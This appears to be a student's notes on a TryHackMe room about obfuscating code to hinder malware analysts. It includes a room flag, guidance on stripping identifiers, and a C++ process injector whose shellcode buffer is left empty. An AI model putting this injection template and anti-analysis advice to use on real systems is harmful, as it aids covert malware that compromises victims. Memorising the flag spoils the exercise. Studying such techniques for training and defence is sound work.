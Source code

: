 ![[Pasted image 20220916202903.png]]

What flag is found after properly reversing the provided snippet?
*THM{D3cod3d!!}*

### Protecting and Stripping Identifiable Information 

﻿Identifiable information can be one of the most critical components an analyst can use to dissect and attempt to understand a malicious program. By limiting the amount of identifiable information (variables, function names, etc.), an analyst has, the better chance an attacker has they won't be able to reconstruct its original function.

At a high level, we should consider three different types of identifiable data: code structure, object names, and file/compilation properties. In this task, we will break down the core concepts of each and a case study of a practical approach to each.
Object Names

Object names offer some of the most significant insight into a program's functionality and can reveal the exact purpose of a function. An analyst can still deconstruct the purpose of a function from its behavior, but this is much harder if there is no context to the function.

The importance of literal object names may change depending on if the language is compiled  or interpreted. If an interpreted language such as Python or PowerShell is used, then all objects matter and must be modified. If a compiled language such as C or C# is used, only objects appearing in the strings are generally significant. An object may appear in the strings by any function that produces an IO operation.

The aforementioned white paper: Layered Obfuscation Taxonomy, summarizes these practices well under the code-element layer’s meaningless identifiers method.

Below we will observe two basic examples of replacing meaningful identifiers for both an interpreted and compiled language.

As an example of a compiled language, we can observe a process injector written in C++ that reports its status to the command line.

```
#include "windows.h"
#include <iostream>
#include <string>
using namespace std;

int main(int argc, char* argv[])
{
	unsigned char shellcode[] = "";

	HANDLE processHandle;
	HANDLE remoteThread;
	PVOID remoteBuffer;
	string leaked = "This was leaked in the strings";

	processHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(atoi(argv[1])));
	cout << "Handle obtained for" << processHandle;
	remoteBuffer = VirtualAllocEx(processHandle, NULL, sizeof shellcode, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);
	cout << "Buffer Created";
	WriteProcessMemory(processHandle, remoteBuffer, shellcode, sizeof shellcode, NULL);
	cout << "Process written with buffer" << remoteBuffer;
	remoteThread = CreateRemoteThread(processHandle, NULL, 0, (LPTHREAD_START_ROUTINE)remoteBuffer, NULL, 0, NULL);
	CloseHandle(processHandle);
	cout << "Closing handle" << processHandle;
	cout << leaked;

	return 0;
}

```